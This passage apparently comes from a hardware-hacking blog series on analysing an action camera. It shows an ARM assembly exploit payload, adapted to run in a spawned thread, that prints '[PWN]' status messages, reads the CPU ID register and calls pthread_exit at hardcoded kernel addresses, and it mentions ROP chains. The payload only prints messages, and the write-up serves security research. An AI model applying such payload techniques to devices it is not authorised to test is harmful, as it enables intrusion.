 ```
```

*Note:* At this point I was sick of writing ROP-chains so it isn't the most efficient, luckily space isn't much of an issue.

## Payload Modifications

As we are running in a thread now, we'll be able to get rid of the fixup stuff we needed to include before, and we'll need to call **pthread_exit**:

```
-python
    @ print spawned string
    adr r0, spawned_string
    ldr r3, =0xc01a79a0
    blx r3
    @ load chip ID register
    mrc p15, #0, r1, c0, c0, #0
    @ print chip ID
    adr r0, fmt_string
    ldr r3, =0xc01a79a0
    blx r3
    @ print killing self
    adr r0, kill_self_string
    ldr r3, =0xc01a79a0
    blx r3
    @ call pthread_exit
    mov r0, #0x0
    ldr r3, =0xc037f2e4
    blx r3
spawned_string:
    .asciz "\033[35m[PWN]\033[0m THREAD SPAWNED\\n"
fmt_string:
    .asciz "\033[35m[PWN]\033[0m CPU ID REGISTER CONTENTS: 0x%x\\n"
kill_self_string:
    .asciz "\033[35m[PWN]\033[0m KILLING SELF\\n"
```

And it works great:

![thread_payload_test.png](/assets/images/analysing_an_action_camera_part_5/thread_payload_test.png)

# Compiling C Code
